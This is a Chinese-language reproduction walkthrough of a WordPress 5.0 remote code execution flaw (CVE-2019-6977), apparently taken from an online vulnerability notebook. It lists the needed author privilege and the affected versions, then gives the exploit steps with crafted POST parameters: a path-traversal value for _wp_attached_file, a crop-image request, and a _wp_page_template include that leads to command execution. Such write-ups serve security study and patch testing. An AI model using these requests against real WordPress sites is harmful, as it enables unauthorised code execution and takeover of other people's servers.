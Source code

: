 # （CVE-2019-6977）WordPress 5.0 RCE

> 原文：[http://book.iwonder.run/0day/Wordpress/19.html](http://book.iwonder.run/0day/Wordpress/19.html)

## 一、漏洞简介

漏洞条件：拥有一个 author 权限的账号

## 二、漏洞影响

影响包括 windows、linux、mac 在内的服务端，后端图片处理库为 gd/imagick 都受到影响，只不过利用难度有所差异。

其中，原文提到只影响 release 5.0.0 版，但现在官网上可以下载的 5.0.0 已经修复该漏洞。实际在 WordPress 5.1-alpha-44280 更新后未更新的 4.9.9~5.0.0 的 WordPress 都受到该漏洞影响。

## 三、复现过程

传图片

![image](img/868048dc1c7d9e6aebc483f3cead9076.png)

改信息

![image](img/1a8bb898f05e8176d25aadfc2d6b346b.png)

保留该数据包，并添加 POST

```
&meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg 
```

触发需要的裁剪

![image](img/1e2dc242ab2d179e2f21ddf61d4e619e.png)

裁剪

![image](img/4f533f5ac80ffef1f363c1db5f2e7dca.png)

同理保留改数据包，并将 POST 改为下面的操作，其中 nonce 以及 id 不变

```
action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100 
```

触发需要的裁剪

![image](img/a5e989b6b7b943cbf4e3227822dd4993.png)

图片已经过去了

![image](img/0f95576b46c535588e6176a47569d227.png)

包含，我们选择上传一个 test.txt，然后再次修改信息，如前面

```
&meta_input[_wp_page_template]=cropped-32.jpg 
```

![image](img/e01759372b84bcd0b3942d471fc7e5fe.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![image](img/1aae029a48aa03a956e25caa41c2154f.png)

## 四、参考链接

> [https://www.freebuf.com/vuls/196514.html](https://www.freebuf.com/vuls/196514.html)

